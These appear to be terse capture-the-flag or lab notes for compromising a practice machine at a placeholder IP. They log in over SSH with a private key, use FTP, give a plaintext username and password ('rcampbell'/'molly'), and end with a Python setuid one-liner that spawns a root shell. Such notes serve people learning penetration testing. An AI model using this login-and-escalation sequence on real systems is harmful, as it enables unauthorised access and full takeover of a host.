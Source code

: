 export ip=<ip>

chmod 600 id_rsa
ssh -i id_rsa gcrawford@$ip

ftp $ip
ssh rcampbell@$ip

username: rcampbell
password: molly


get root
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
